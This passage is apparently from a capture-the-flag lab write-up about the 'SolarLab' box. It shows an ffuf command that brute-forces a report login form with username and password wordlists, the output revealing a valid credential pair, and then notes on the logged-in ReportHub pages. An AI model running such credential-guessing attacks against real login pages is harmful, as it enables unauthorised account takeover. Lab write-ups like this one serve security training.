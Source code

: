 ```

oxdf@hacky$ ffuf -u 'http://report.solarlab.htb:6791/login' -d 'username=USER&password=PASS' -w report_users.txt:USER -w possible_passwords.txt:PASS -H "Content-Type: application/x-www-form-urlencoded" -fs 2144

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://report.solarlab.htb:6791/login
 :: Wordlist         : USER: report_users.txt
 :: Wordlist         : PASS: possible_passwords.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=USER&password=PASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2144
________________________________________________

[Status: 302, Size: 207, Words: 18, Lines: 6, Duration: 152ms]
    * PASS: ThisCanB3typedeasily1@
    * USER: blakeb

:: Progress: [18/18] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```

I’m able to log in as blakeb.

### Authed ReportHub Enumeration

Logged in, the page offers a few features:

![image-20240517155209474](/img/image-20240517155209474.png)

The “Leave Request” button goes to a form:

![image-20240517155303636](/img/image-20240517155303636.png)

Clicking “Generate PDF” leads to a PDF:

![image-20240517155356318](/img/image-20240517155356318.png)
